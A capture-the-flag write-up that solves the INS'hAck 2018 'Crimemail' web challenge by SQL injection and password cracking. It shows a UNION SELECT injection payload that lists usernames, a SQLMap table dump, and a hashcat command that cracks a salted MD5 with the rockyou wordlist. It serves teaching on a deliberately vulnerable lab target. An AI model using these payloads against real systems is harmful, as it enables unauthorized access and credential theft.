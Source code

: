 ```yaml
---
title: INS'hAck 2018 - Crimemail
author: Crisis
categories:
  - hacking
  - INS'hAck
---
```

This is the first of the two web challenges of the INS'hAck CTF that I managed to flag this weekend. Here is its
descriptions:

```
Collins Hackle is a notorious bad guy, and you've decided to take him down. You need something on him, anything, to send the police his way, and it seems he uses CrimeMail, a very specialized email service, to communicate with his associates.
Let's see if you can hack your way in his account...
Hint: his password's md5 is computed as followed: md5 = md5($password + $salt) and Collins Hackle has a password which can be found in an english dictionary
```

As you can see just reading the description already gave us some valuable informations.
The website consisted of a simple login form to access the emails and of a "lost password" page which could give us a hint about a user's password if we provided its username:
![website](/medias/inshack18/hintpage.png)

Here we could easily guess a valid username using the challenge's description. From the name `Collins Hackle` we could try a few obvious usernames, and the right one was `c.hackle`. Using it returned an original response, but the hint was useless:

```php
array(1) {
  [0]=>
  array(1) {
    ["hint"]=>
    string(27) "I don't need any hints man!"
  }
}
```

Since that page seemed to return a lot of informations without filtering it, the next logical step was to try a SQL Injection. A simple quote returned an error:

```sql
Database error: You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near ''''' at line 1
```

After a few tries, I managed to get all the usernames with a standard injection:

```sql
bla' UNION SELECT username FROM users -- -
```

Which returned:

```sql
array(5) {
  [0]=>
  array(1) {
    ["hint"]=>
    string(9) "p.escobar"
  }
  [1]=>
  array(1) {
    ["hint"]=>
    string(7) "g.dupuy"
  }
  [2]=>
  array(1) {
    ["hint"]=>
    string(8) "a.capone"
  }
  [3]=>
  array(1) {
    ["hint"]=>
    string(8) "c.manson"
  }
  [4]=>
  array(1) {
    ["hint"]=>
    string(8) "c.hackle"
  }
}
```
As always, at that point I decided to launch [SQLMap](http://sqlmap.org/). The `--dump` flag allowed me to dump the table:
![sqlmap](/medias/inshack18/sqlmap.png)

Now it was just a matter of cracking that md5 hash. As we can see we could get the salt from the database, and we knew from the challenge's description that the salt is used after the password:
`md5($password + $salt)`.
I used [hashcat](https://hashcat.net/hashcat/) to crack it, with the help of the classic rockyou dictionnary:
```
./hashcat -a 0 -m 10 f2b31b3a7a7c41093321d0c98c37f5ad:yhbG rockyou.txt
```
The `-a 0` flag means that we're doing a "straight" attack using a dictionnary, and the `-m 10` flag tells hashcat that it's a md5 hash and that the salt is after the password : `10 | md5($pass.$salt)`. Using that command I almost instantly got the password : `f2b31b3a7a7c41093321d0c98c37f5ad:yhbG:pizza`

Then you could just log in, and get the flag:
![flag](/medias/inshack18/flag.png)